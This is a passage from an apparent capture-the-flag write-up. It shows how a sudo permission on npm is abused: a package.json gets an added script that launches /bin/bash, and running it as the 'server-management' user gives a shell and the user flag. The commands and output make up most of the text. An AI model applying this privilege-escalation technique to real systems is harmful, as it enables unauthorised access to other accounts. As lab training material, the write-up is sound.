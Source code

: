 ```
$ cd /tmp
$ npm init
[SNIP]
{
  "name": "tmp",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "",
  "license": "ISC"
}
[SNIP]
```

Creating a command to add a script for the shell:

```
echo $(cat package.json | grep -v "}" | grep -v auth | grep -v lice; echo ',"shell": "/bin/bash"},'; cat package.json | grep 'auth\|lice'; echo "}") > package.json
```

The resulting file:

```
$ cat package.json
{ "name": "tmp", "version": "1.0.0", "description": "", "main": "index.js", "scripts": { "test": "echo \"Error: no test specified\" && exit 1" ,"shell": "/bin/bash"}, "author": "", "license": "ISC" }
```

Running the npm script as user server-management:

```
$ sudo -u server-management npm install
$ sudo -u server-management npm run-script shell

> tmp@1.0.0 shell /tmp
> /bin/bash

id
uid=1000(server-management) gid=1000(server-management) groups=1000(server-management),24(cdrom),30(dip),46(plugdev),116(lpadmin),122(sambashare)
```

#### Getting the user flag:

With the user server-managment we can get the user flag:
```
ls /home/server-management
Desktop
Documents
Downloads
Music
Pictures
Public
Shuriken
Templates
Videos
user.txt
cat /home/server-management/user.txt
67528b07b382dfaa490f4dffc57dcdc0
```
